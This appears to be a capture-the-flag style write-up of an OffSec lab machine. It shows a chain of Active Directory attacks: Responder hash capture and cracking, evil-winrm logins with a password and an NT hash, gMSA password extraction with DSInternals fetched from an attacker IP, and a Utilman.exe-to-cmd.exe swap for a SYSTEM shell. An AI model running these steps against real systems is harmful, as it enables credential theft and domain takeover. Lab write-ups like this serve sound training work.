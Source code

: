 
# 8080

![](attachment/16a57306aa21f22ba1752596ef8761b3.png)
Now visiting our ip:
while running responder:![](attachment/4ea2b458e2cdb797c36009eb7d45cb8c.png)
We can crack it:
![](attachment/068eabe628e729a392e5b8ee4d467a31.png)
Now logging in with evil-winrm:
```
evil-winrm -i 192.168.180.165 -u enox -p 'california'
```
![](attachment/09eb09ee93235a4ee0ec5f49d390f724.png)

Found a todo list:
![](attachment/6ad5ff2fccd73e4932dba99fc980784a.png)
Could do something with gMSA

# gMSA
Now to find gMSA:
```
Get-ADServiceAccount -Filter * -Properties * | Select SamAccountName,PrincipalsAllowedToRetrieveManagedPassword,msDS-ManagedPasswordInterval,ServicePrincipalNames
```
![](attachment/59736ff5c01e6086d2932ad7c5d60db6.png)
Web Admins are allowed to retrieve the password:
![](attachment/73f8e1960be1892e38ebb7a98c3235bc.png)
We belong to Web Admins.

To get password blob:
```
Get-ADServiceAccount  -Identity svc_apache -Properties 'msDS-ManagedPassword'
```
Now using DSInternals
```
wget http://192.168.45.167/DSInternals.zip -o DSInternals.zip
Unblock-File DSInternals.zip
Expand-Archive DSInternals.zip
cd DSInternals
cd DSInternals
import-module .\DSInternals.psd1
```
Now store the password as PSCredential object:
```
$cred = new-object system.management.automation.PSCredential "heist.offsec\svc_apache",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```
Now login as svc_apache using PSSession:
```
Enter-PSSession -ComputerName DC01 -Credential $cred
```
![](attachment/f49be790bf0fcaad81f224137dc7eb5b.png)

We can also get NTLM Hashes with:
```
$gmsa = Get-ADServiceAccount -Identity "svc_apache" -Properties "msDS-ManagedPassword"
$mp = $gmsa.'msDS-ManagedPassword'
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash

```
# SeRestorePrivilege

Now logging in with winrm with the hash:
```bash 
evil-winrm -i 192.168.180.165 -u 'svc_apache$' -H '023145fc00ce8bab62704eb63ab7bdab'
```
![](attachment/2384695944516795997ae12ec2f9260f.png)
We have SeRestorPrivilege
![](attachment/1d92a91da4e67ac8d0aa7f864e3e29cb.png)

Now using this page:
https://github.com/gtworek/Priv2Admin
![](attachment/f54b0e55a216ac779bf61981ab82ffa4.png)
```
ren "C:/Windows/System32/Utilman.exe"  Utilman.old
```
```
ren "C:/Windows/SYstem32/cmd.exe" Utilman.exe
```
Now we can get to the lockscreen with rdesktop:
```
rdesktop 192.168.180.254
```
![](attachment/815b7883b8d4d8ebf8175bd54adbacd9.png)
Now press `win + U`
![](attachment/70128606d6743f36ded129e883e01238.png)
We can transfer rcat and execute to get a proper shell:
![](attachment/e7518d4fad58577ac086998c4edbf326.png)
